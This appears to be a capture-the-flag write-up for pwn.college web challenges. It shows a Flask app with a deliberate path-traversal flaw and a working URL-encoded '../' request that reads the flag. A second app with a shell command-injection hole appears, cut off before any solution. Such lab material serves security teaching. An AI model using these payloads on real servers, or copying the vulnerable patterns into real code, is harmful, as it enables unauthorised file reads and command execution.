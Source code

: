 

**Path Traversal 2:**
```python
#!/opt/pwn.college/python

import flask
import os

app = flask.Flask(__name__)


@app.route("/shared", methods=["GET"])
@app.route("/shared/<path:path>", methods=["GET"])
def challenge(path="index.html"):
    requested_path = app.root_path + "/files/" + path.strip("/.")
    print(f"DEBUG: {requested_path=}")
    try:
        return open(requested_path).read()
    except PermissionError:
        flask.abort(403, requested_path)
    except FileNotFoundError:
        flask.abort(404, f"No {requested_path} from directory {os.getcwd()}")
    except Exception as e:
        flask.abort(500, requested_path + ":" + str(e))


app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = f"challenge.localhost:80"
app.run("challenge.localhost", 80)
```

- The path.strip('/.') prevents the path string to start/end with any / or . character.  
- But we can have /../.. in the middle of the string, so we simply go forward to a folder, then go backwards. Also, we url encode. 

Solution:
```python
import requests

r = requests.get("http://challenge.localhost:80/shared/fortunes%2F..%2F..%2F..%2Fflag")
print(r.text)
```


**CMDi 1:**
```python
import subprocess
import flask
import os

app = flask.Flask(__name__)


@app.route("/resource", methods=["GET"])
def challenge():
    arg = flask.request.args.get("directory", "/challenge")
    command = f"ls -l {arg}"

    print(f"DEBUG: {command=}")
    result = subprocess.run(
        command,  # the command to run
        shell=True,  # use the shell to run this command
        stdout=subprocess.PIPE,  # capture the standard output
        stderr=subprocess.STDOUT,  # 2>&1
        encoding="latin",  # capture the resulting output as text
    ).stdout
```
